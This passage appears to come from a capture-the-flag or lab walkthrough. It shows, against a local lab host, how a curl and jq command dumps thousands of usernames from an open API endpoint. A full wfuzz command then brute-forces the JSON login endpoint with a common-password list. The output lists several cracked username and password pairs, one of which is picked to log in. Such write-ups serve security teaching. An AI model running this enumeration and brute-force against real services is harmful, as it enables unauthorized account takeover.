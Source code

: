```
# curl -s 192.168.30.128/users/getUsers | jq . | grep username | cut -d':' -f2 | cut -d'"' -f1 > usernames.txt
# wc -l usernames.txt
15760
```

The site is not lying when they say they have over 15,000 users!

Using `wfuzz` and a wordlist of the 100 most common passwords, we can attempt a brute-force at the login page like so.

```
# wfuzz \
-w usernames.txt \
-w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt \
-H "Content-Type: application/json" \
-H "Referer: http://192.168.30.128/login" \
-d "{\"username\":\"FUZZ\", \"password\": \"FUZ2Z\"}" \
-t 20 \
--hc 401 \
http://192.168.30.128/users/authenticate
```

In fact, we don't even have to finish the brute-force.

```
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.30.128/users/authenticate
Total requests: 1576000

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000206:  C=200      0 L	       3 W	    445 Ch	  "eivijay - 12345"
000405:  C=200      0 L	       3 W	    459 Ch	  "ipadolpho - 123456789"
000704:  C=200      0 L	       3 W	    454 Ch	  "mdrudie - qwerty"
000916:  C=200      0 L	       3 W	    464 Ch	  "nmmyriam - letmein"
001603:  C=200      0 L	       3 W	    447 Ch	  "nswash - 12345678"
001801:  C=200      0 L	       3 W	    462 Ch	  "pejerrine - 123456"
```

Logging in with any of the credentials above will result in a JSON Web Token (JWT) and the user's profile getting stored in the browser's local storage. You'll see that in a while.

Let's go with the credential (`eivijay:12345`).
